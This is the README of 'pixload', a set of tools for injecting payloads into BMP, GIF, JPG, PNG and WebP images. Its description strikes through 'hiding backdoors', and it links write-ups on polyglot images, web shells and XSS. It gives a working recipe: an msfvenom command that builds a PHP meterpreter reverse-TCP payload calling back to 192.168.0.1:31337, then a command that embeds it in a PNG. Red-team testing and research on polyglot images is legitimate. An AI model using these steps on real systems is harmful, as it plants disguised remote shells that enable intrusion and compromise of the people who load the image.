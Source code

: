 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for ~~hiding backdoors~~ creating/injecting payload into images.

The following image types are currently supported: BMP, GIF, JPG, PNG, WebP.

#### about

Useful references for better understanding of `pixload` and its use-cases:

- [Bypassing CSP using polyglot JPEGs](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)

- [Hacking group using Polyglot images to hide malvertising attacks](https://web.archive.org/web/20190226193728/https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)

- [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

- [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

- [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

If you want to encode a payload in such a way that the resulting binary blob is
both valid x86 shellcode and a valid image file, I recommend you to look
[here](https://web.archive.org/web/20201008001325/https://warroom.securestate.com/bmp-x86-polyglot/)
and
[here](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/bmp_polyglot.rb).

#### msfvenom

If you want to inject a metasploit payload, you have to do something like this:

1. Create metasploit payload (i.e. php).
```sh
$ msfvenom -p php/meterpreter_reverse_tcp \
	LHOST=192.168.0.1 LPORT=31337 -f raw > payload.php
```

2. Edit `payload.php` if needed.

3. Inject `payload.php` into the image (i.e. png).
```sh
$ pixload-png --payload "$(cat payload.php)" payload.png
```

## SETUP
